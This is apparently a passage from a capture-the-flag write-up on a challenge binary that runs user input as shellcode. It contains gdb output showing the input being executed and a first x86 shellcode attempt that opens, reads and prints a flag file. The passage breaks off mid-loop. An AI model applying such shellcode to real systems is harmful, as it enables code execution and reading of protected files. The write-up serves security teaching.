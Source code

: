 ```
 8048599:	66 90                	xchg   ax,ax
 804859b:	66 90                	xchg   ax,ax
 804859d:	66 90                	xchg   ax,ax
 804859f:	90                   	nop
```
From the `<main>` function, we can tell that the user input is being run directly, just as we see in exploit-exercises.

This below is the proof that the input is being run. The segfault occures in `0x0804a06b` as the character `'a'` has the same byte as a valid instruction `"popa"`. 
```
(gdb) c
Continuing.
Give my your shellcode:aaaaaaaaaaabbbbbbbbbbbccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllllmmmmmmmmmmmnnnnnnnnnnooooooooooopppppppppp

Program received signal SIGSEGV, Segmentation fault.
0x0804a06b in shellcode ()
=> 0x0804a06b <shellcode+11>:	62 62 62	bound  esp,QWORD PTR [edx+0x62]
(gdb) x/s 0x804a06b
0x804a06b <shellcode+11>:	'b' <repeats 11 times>, "ccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllll", 'm' <repeats 11 times>, "nnnnnnnnnn", 'o' <repeats 11 times>, "pppppppppp\n"
(gdb) x/s 0x804a060
0x804a060 <shellcode>:	'a' <repeats 11 times>, 'b' <repeats 11 times>, "ccccccccccddddddddddeeeeeeeeeeffffffffffgggggggggghhhhhhhhhhiiiiiiiiiijjjjjjjjjjkkkkkkkkkkllllllllll", 'm' <repeats 11 times>, "nnnnnnnnnn", 'o' <repeats 11 times>, "pppppppppp\n"
(gdb) x/5i 0x804a060
   0x804a060 <shellcode>:	popa   
   0x804a061 <shellcode+1>:	popa   
   0x804a062 <shellcode+2>:	popa   
   0x804a063 <shellcode+3>:	popa   
   0x804a064 <shellcode+4>:	popa   
(gdb) 
```

### Testing a concept
Armed with the knowledge above, I began my attempts to exploit this vulnerability.
This is my first attempt:
```
mov eax, 0x5
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80	;open("/home/orw/flag", 0x0, 0x0)
mov edi, eax

read:
mov ebx, edi	;edi stores the fd of the file we opened. 
mov eax, 0x3
mov ecx, esp	;store the character in the stack
mov edx, 0x1	;read 1 character from the flag file
int 0x80	;read(file, top of stack, 1 char)

inc eax
xor ebx,ebx
mov ecx, esp
int 0x80	;write(stdout, top of stack, 1 char)

cmp ecx, 0x0
```